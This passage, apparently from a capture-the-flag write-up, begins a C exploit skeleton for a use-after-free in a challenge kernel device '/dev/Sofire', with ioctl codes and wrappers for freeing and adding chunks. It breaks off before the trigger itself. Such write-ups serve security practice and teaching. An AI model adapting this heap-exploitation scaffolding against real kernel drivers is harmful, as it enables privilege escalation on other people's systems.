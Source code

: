 
## Triggering the Use-After-Free
I designed the following skeleton to interact wtih the device via ioctl.
```c
#include <fcntl.h>      /* open */
#include <unistd.h>     /* exit */
#include <sys/ioctl.h>  /* ioctl */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <linux/ioctl.h>
#include <linux/tty.h>
#include <sys/syscall.h>
#include <assert.h>
#include <sys/utsname.h>
#include <sys/stat.h>
#include <sys/types.h>

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <sys/types.h>
#include <errno.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <string.h>
#include <pty.h>
#include <sys/mman.h>
#include <sys/ipc.h>
#include <sys/sem.h>
#include <sys/socket.h>
#include <sys/timerfd.h>

#define DEVICE_FILE_NAME "/dev/Sofire"
#define FREE 0x1337
#define ADD 0xdeadbeef
#define READ 0xcafebabe
#define WRITE 0xbabecafe

#define CHUNK_SIZE 0x100

typedef struct request{
    int idx;
    char buffer[CHUNK_SIZE];
} request;

int fd;

request req;

int free_nft(){
        return ioctl(fd, FREE, &req);
}

int add_nft(char* data){
        memcpy(req.buffer, data, CHUNK_SIZE);
        return ioctl(fd, ADD, &req);
}

int read_nft(int idx, char* out){
        int ans;
```